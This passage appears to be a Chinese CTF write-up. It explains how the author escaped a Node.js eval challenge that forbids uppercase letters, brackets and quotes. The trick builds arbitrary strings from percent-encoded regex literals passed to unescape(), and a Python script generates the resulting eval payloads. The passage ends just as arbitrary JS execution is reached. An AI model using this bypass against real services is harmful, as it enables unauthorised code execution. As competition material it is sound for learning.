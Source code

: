 我被卡住了很长很长时间。这里要求不能有大写字母、中括号大括号、各种引号，`.` 前后都必须是数字，看起来只能搞出 `func1(1),func2(2),func3(3)` 这种 payload，而且也不知道 flag 在哪里。也看了看 `process`，除了知道 flag 不在环境变量里面以外没啥用。

之后去做别的题了。回来看的时候，想想，要不把 nodejs 所有函数过一遍？Nodejs REPL 的 Tab 补全还是很好用的。然后我发现了一个有趣的函数：`unescape()`，可以把数字变成字符串。

```nodejs
> unescape(2022)
'2022'
```

所以我当时想，能不能这么搞：

```js
eval(atob(unescape(1234567890)))
```

但是查了一下 base64 的字母表，打消了这个念头，因为数字的六位编码开头都是 1，这样会导致输出第一位肯定是一个不在 ascii 表里的字符，我不认为这样能成功运行。

之后又没有进展。在赛博空间随机游走的时候找到了 MDN 的 JavaScript References，过了一遍，读到 Misc/Lexical grammar 这一节的时候，[看到了一直想要的那个东西](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Lexical_grammar#regular_expression_literals)：Regular expression literals，格式为 `/ab+c/`。

试一下！

```nodejs
> unescape(/can i construct arbitary string now/)
'/can i construct arbitary string now/'
```

好耶！虽然开头和结尾的斜杠有点烦，但是因为我们的目标是把这坨东西扔给 `eval()` 来执行，所以并非没有办法绕过，注意到我们可以写 `/* this is a comment */` 类型的注释，所以可以这样子：

```nodejs
> unescape(/%2A%2A%2F console%2Elog %2F%2A/)+unescape(/%2A/)
'/**/ console.log /*//*/'
> eval(unescape(/%2A%2A%2F console%2Elog %2F%2A/)+unescape(/%2A/))
[Function: log]
```

顺便写个程序帮我们构造 payload：

```python
import sys
import urllib.parse
import string

payload = sys.argv[1]
def encode_all(s):
    return "".join(["%{0:0>2}".format(format(ord(char), "x")) if char not in string.ascii_lowercase + "1234567890" else char for char in s])

payload = encode_all(payload)

print(f"eval(unescape(/%2a%2a%2f {payload} %2f%2a/)+unescape(/%2a/))")
```

好，现在我们可以执行任意 JS 了，接下来就让我们读一下文件吧！
